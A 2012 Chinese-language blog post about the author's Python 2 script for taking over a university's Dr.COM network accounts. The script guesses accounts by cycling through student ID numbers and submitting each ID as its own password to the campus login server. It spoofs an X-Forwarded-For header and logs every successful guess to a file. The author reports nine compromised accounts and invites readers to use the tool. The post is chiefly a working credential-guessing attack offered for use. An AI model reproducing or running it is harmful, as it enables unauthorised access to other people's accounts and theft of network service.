 ```yaml
---
layout: post
title: python猜研究生账号
comments: true
date: 2012-04-04 09:01
categories: python
---
```


嗯，为何要猜研究生账号呢？是这样的，我们学校用的drcom控制网络访问，如果你用本科生账号，那么你最快下载速度也就是100kb/s，如果是老师、研究生账号呢，最快7Mb/s，这是什么差距你应该明白吧？！于是写了一个python的脚本来不断猜测研究生账号，但很可惜的是，猜出来的9个账号经过测试都还是有限速效果，真不知道这些账号是不是研究生账号呢？！！！可恶的学校啊！！！


{% codeblock %}
#! /usr/bin python
# encoding: utf-8

import urllib2
import urllib
import sys
import types

guess_list = []
server_url = "http://222.174.155.19/"
headers = {'User-Agent':'Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.6) Gecko/20091201 Firefox/3.5.6',
'X-Forwarded-For':'1.1.1.1'}

def usage():
print "USAGE 00: python guess.py FILEPATH of account list file,like: python guess.py ./lists.dat"
print "USAGE 01: python guess.py START END like: python guess.py 2009123456 2009145396"

def Login(username, password):
params = urllib.urlencode({'DDDDD': username, 'upass': password, '0MKKey': "%B5%C7%C2%BC%20Login"})
request = urllib2.Request(url = server_url, data = params, headers = headers)
try:
output = urllib2.urlopen(request, timeout = 3).readlines()
Log(output[5], username, password)
except:
print "timeout!"
global guess_list
guess_list = guess_list[1:]
guess_list.append(username)

def Logout():
output = urllib2.urlopen(server_url + "F.htm")

def Log(output,username, password):
# "msga='error1'" => can not login in web
result = output.find("msga='error1'")
if result != -1:
print "find one!!!"
f = open("./content.dat", 'a')
f.write(str(username) + '\n')
f.close()
else:
print "pass!"
f = open("./bad.dat",'a')
f.write(str(username) + '\n')
f.close()
#drop first element
global guess_list
guess_list = guess_list[1:]

def show_result():
print "Result:##########################################"
print "Have Guessed:"
for i in open("./content.dat").readlines():
print i,
print "some accounts can not guessed are in bad.dat"
print "Result:##########################################"

def get_timeout_list(timeout_file_path):
f = open(timeout_file_path)
global guess_list 
guess_list = f.readlines()
f.close()

if len(sys.argv) == 2:
# itself and only one argv,the path of account list file...
get_timeout_list(sys.argv[1])
elif(len(sys.argv) < 2):
usage()
else:
#start and end account,argv[1] and argv[2]
start = int(sys.argv[1])
end = int(sys.argv[2])
if start > end:
usage()
exit(-1)
else:
guess_list = range(start, end + 1)

if __name__ == "__main__":

while True:
for i in guess_list:
#drop last \n or \r
if type(i) == types.StringType:
i = i.rstrip('\n\r')
Logout()
print "Guess: " + str(i)
Login(i, i)

if len(guess_list) == 0:
break
show_result()
{% endcodeblock %}

主要就是用了drcom的网页登陆，当然大部分账号都是不能web登陆的啦，不过账号密码正确的话会弹出来一个提示，drcom是使用的js来显示的，于是我监测了是不是有“msga='error1'”字符串，当然严格来讲还得监测是不是有"Msg=0"这个字符串才好，我就省略了……

希望被drcom困扰的人们都能拿去用用，希望对你们有帮助！